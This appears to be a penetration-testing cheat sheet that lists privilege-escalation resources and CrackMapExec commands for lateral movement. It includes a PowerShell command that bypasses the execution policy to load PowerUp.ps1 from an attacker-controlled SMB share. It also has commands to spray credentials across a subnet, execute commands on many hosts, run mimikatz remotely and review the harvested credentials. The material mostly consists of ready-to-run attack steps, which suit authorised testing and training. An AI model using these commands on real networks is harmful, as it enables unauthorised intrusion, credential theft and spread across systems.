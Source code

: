 
This uses PowerUp.ps1 through your attacking smb server and outputs a `checks.txt` to the victim machine.
```
powershell.exe  -ExecutionPolicy Bypass -command "& { . Import-Module \\10.11.0.188\GELO\PowerUp.ps1; Invoke-AllChecks | Out-File -Encoding ASCII checks.txt }"
```


#### Windows (Domain)
* Bloodhound to find fastest path to DA
* Kerberoasting
* https://www.gracefulsecurity.com/privilege-escalation-in-windows-domains/
 
#### Linux
* https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
* [linuxprivchecker.py](https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py)
* SUID bits, mounts, local running serviccs, kernel exploits, cronjobs

### CrackMapExec Cheat Sheet (Lateral Movement, Privilege Escalation)
---
#### spray credentials against smb
```
cme smb 172.16.164.10-15 -u user -p password
```

#### execute commands across hosts
```
cme smb 172.16.164.10-15 -u user -p password -x whoami
```

#### list modules (example: mimikatz)
```
cme smb 172.16.164.10-15 -u user -p password -l
```

#### run mimikatz across hosts
```
cme smb 172.16.164.10-15 -u user -p password -m mimikatz
 ```

#### view dumped creds in cme database
```
sudo cmedb
proto smb
creds (lists creds you've gathered so far)
hosts (lists hosts you've enumertated so far)
hosts 1 (check what credentials you have for a certain host)
```


#### list all domain groups
```
cme smb 172.16.164.10 -u user 'password' --groups
```
